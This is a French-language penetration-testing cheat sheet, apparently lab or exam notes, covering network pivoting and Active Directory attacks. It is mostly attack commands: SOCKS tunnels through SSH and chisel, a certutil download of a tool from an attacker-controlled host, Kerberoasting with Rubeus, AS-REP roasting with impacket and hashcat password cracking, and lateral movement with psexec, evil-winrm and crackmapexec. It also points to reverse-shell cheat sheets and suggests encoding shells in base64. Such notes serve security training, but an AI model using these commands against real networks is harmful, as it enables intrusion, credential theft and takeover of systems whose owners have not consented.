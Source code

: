 ```bash
# exécuter nmap sur Machine02 avec proxychains nmap -sT -sU -p22,161,135,139,445,88,3389 10.10.10.10
```

#### Transfert de port avec SSH (si le port 22 est ouvert dans machine01)
```bash
ssh -D 8001 -C -q -N noman@192.168.10.10
# dans /etc/proxychains4.conf (ajouter 127.0.0.1 9999)
socks5 127.0.0.1 8001
```

#### Transfert de port avec chisel
```bash
# socks5 127.0.0.1 1080 ajouter ceci dans /etc/proxychains
./chisel server -p 5555 --reverse
certutil -urlcache -split -f http://192.168.100.100/chisel-x64.exe
chisel client 192.168.100.100:5555 R:socks
# c'est le meilleur article pour l'installation de chisel
# https://vegardw.medium.com/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29
```

#### Kerberoasting Windows avec Machine02
```bash
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule –force
```

OU

#### ./GetUserSPNs.py Pour Machine02
```bash
# assurez-vous que le pare-feu est désactivé et que vous êtes administrateur local etc.
proxychains python3 impacket-GetNPUsers noman.domain/noman:Noman@123 -dc-ip 10.10.100.100
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule –force
```

Si SQL, utilisez mssqlclient.py ; si SMB, utilisez psexec.py ; si WinRM ou evil-winrm, vérifiez l'administrateur, puis passez à l'étape suivante pour trouver le root Windows. Si vous trouvez beaucoup de noms d'utilisateur et mots de passe, utilisez crackmapexec pour SMB, SQL, WinRm ou evil-winrm.

### Domain01
```bash
# exécuter nmap sur Domain01 avec proxychains nmap -sT -sU -p22,161,445,88,3389 10.10.10.10
# vérifier nmap pour la connexion et utiliser crackmapexec. Si vous ne voulez pas utiliser nmap, alors
# connectez-vous simplement avec psexec, winrm ou winexe
# si vous ne trouvez pas le nom d'utilisateur et le mot de passe, utilisez une méthode différente comme pass the hash, silver ticket
```

## Informations générales
### Shell inversé
- Copiez toujours le shell inversé à partir de ces liens et vérifiez directement. S'il ne fonctionne pas, encodez-le avec URL ou chiffrez-le avec base64.
  - https://www.revshells.com/
  - https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
